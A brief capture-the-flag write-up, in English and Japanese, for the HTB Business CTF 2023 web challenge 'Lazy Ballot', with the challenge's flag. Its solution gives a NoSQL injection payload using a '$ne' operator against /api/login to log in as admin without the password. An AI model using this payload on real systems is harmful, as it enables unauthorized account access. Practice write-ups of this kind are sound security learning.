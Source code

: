 ```yaml
---
layout: post
title: "[Web] Lazy Ballot (300 pts, 383 solved)"
published : true
permalink: /ctf/writeups/HTB_Business_CTF_2023/Web_LazyBallot
tags: [CTF, WriteUps, HTB Business CTF]
---
```

## Description
As a Zenium State hacker, your mission is to breach Arodor's secure election system, subtly manipulating the results to create political chaos and destabilize their government, ultimately giving Zenium State an advantage in the global power struggle.

## Solution
ログイン画面でNoSQL injectionすることで、管理者でログインができる。

/api/login に対して以下のペイロードをPOSTする。

```
{
    "username":"admin",
    "password":{
        "$ne":"wrongpassword"
    }
}
```

管理画面にログインした後、最後のVotesのRegion欄にフラグがある。

Flag: `HTB{c0rrupt3d_c0uch_b4ll0t}`